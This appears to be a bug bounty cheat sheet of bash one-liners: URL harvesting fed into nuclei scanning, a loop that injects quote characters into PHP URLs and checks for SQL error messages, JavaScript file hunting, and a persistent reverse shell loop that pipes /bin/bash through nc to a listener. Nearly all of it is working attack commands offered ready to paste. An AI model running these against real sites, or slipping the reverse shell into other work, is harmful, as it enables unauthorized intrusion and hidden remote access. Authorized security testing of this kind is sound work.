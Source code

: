 # Simple 1Line #BASH For #BugBounty.

```waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast```

```gau TARGET.COM | grep = | tee urls.txt | nuclei -dast```


# 1Line BASH To Perform #SQL_Injection For BugBounties.

```cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done```


# LazyEgg - Hunting JS Files.

```waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg[.]py "{}" --js_urls --domains --ips'```


# Reverse Shell Bash Loop.

```while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done```
